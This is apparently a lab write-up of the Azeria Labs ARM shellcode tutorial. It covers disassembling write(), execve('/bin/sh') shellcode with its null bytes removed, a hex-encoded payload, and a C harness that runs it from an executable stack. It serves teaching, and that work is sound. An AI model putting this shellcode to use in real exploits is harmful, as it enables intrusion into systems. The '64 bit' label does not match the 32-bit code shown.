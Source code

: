 # Azeria Labs: Introduction To Writing ARM Shellcode

This is based on: https://azeria-labs.com/writing-arm-shellcode/.
This is the 64 bit Version.

Working directory is:
```
~/challenges/challenge47
```

## Understanding System Functions

We can check the source code of `write()`:

```
(gdb) disas write
Dump of assembler code for function write:
   0xf7763f80 <+0>:     ldr.w   r12, [pc, #74]  ; 0xf7763fce
   0xf7763f84 <+4>:     add     r12, pc
   0xf7763f86 <+6>:     ldr.w   r12, [r12]
   0xf7763f8a <+10>:    teq     r12, #0
   0xf7763f8e <+14>:    push    {r7}
   0xf7763f90 <+16>:    bne.n   0xf7763fa4 <write+36>
   0xf7763f92 <+18>:    movs    r7, #4
   0xf7763f94 <+20>:    svc     0
   0xf7763f96 <+22>:    pop     {r7}
   0xf7763f98 <+24>:    cmn.w   r0, #4096       ; 0x1000
   0xf7763f9c <+28>:    it      cc
   0xf7763f9e <+30>:    bxcc    lr
   0xf7763fa0 <+32>:    b.w     0xf76f2990 <__syscall_error>
   0xf7763fa4 <+36>:    push    {r0, r1, r2, r3, lr}
   0xf7763fa6 <+38>:    bl      0xf7777a88 <__libc_enable_asynccancel>
   0xf7763faa <+42>:    mov     r12, r0
   0xf7763fac <+44>:    pop     {r0, r1, r2, r3}
   0xf7763fae <+46>:    movs    r7, #4
   0xf7763fb0 <+48>:    svc     0
   0xf7763fb2 <+50>:    mov     r7, r0
   0xf7763fb4 <+52>:    mov     r0, r12
   0xf7763fb6 <+54>:    bl      0xf7777b10 <__libc_disable_asynccancel>
   0xf7763fba <+58>:    mov     r0, r7
   0xf7763fbc <+60>:    ldr.w   lr, [sp], #4
   0xf7763fc0 <+64>:    pop     {r7}
   0xf7763fc2 <+66>:    cmn.w   r0, #4096       ; 0x1000
   0xf7763fc6 <+70>:    it      cc
   0xf7763fc8 <+72>:    bxcc    lr
   0xf7763fca <+74>:    b.w     0xf76f2990 <__syscall_error>
```

And to re-write it in our own shellcode:
```
root@hlUbuntu32:~/challenges/challenge47# cat write.s
.data
string: .asciz "Azeria Labs\n"  @ .asciz adds a null-byte to the end of the string
after_string:
.set size_of_string, after_string - string

.text
.global _start

_start:
   mov r0, #1               @ STDOUT
   ldr r1, addr_of_string   @ memory address of string
   mov r2, #size_of_string  @ size of string
   mov r7, #4               @ write syscall
   swi #0                   @ invoke syscall

_exit:
   mov r7, #1               @ exit syscall
   swi 0                    @ invoke syscall

addr_of_string: .word string
```

Lets execute it:
```
root@hlUbuntu32:~/challenges/challenge47# ./write
Azeria Labs
```

## Syscall Number and Parameters

Execve Shellcode Source `execve1.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/),
first example containing null-bytes */

.section .text
.global _start

_start:
        add r0, pc, #12
        mov r1, #0
        mov r2, #0
        mov r7, #11
        svc #0

.ascii "/bin/sh\0"
```

Lets execute it:

```
root@hlUbuntu32:~/challenges/challenge47# ./execve1
#
```

## De-Nullify Shellcode

Execve Shellcode without NULL's in code Source `execve2.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/),
second example containing one null-byte */

.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        mov r7, #11
        svc #1
        mov r5, r5

.ascii "/bin/sh\0"
```

Test it:
```
root@hlUbuntu32:~/challenges/challenge47# ./execve2
#
```

Execve without NULL in string source `execve3.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/), thrid example without null-bytes */
.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shx"
```

Note: If you execute this, you'll receive a segmentation fault at the
`strb` instruction. Do you know the reason?


## Transform Shellcode into Hex string

Copy the content of the program into a separate file:
```
$ objcopy -O binary execve3 execve3.bin
```

And use the python script to convert it:
```
$ ./toshellcode.py execve3.bin
```

You can try it in the following program:
```
#include <stdio.h>
#include <string.h>

// Len: 28
char *shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78";

int main(void) {
        char s[32];
        memcpy(s, shellcode, 28);

        ( *( void(*)() ) s)();
}
```

Note that we have to copy the shellcode into a stack variable.
We also have to compile it with executable stack enabled.


# Questions

## Questions
* Why does `execve3` not execute?
* Why do we have to copy the shellcode to the stack in `execve3.s`?
* Why do we enable executable stack on `execve3.s` ?

## Answers
All three questions have the same answer. The shellcode is modifying part of
itself (the string), so it has to be writeable. But it will also be executed, so
we have to enable executable stack.
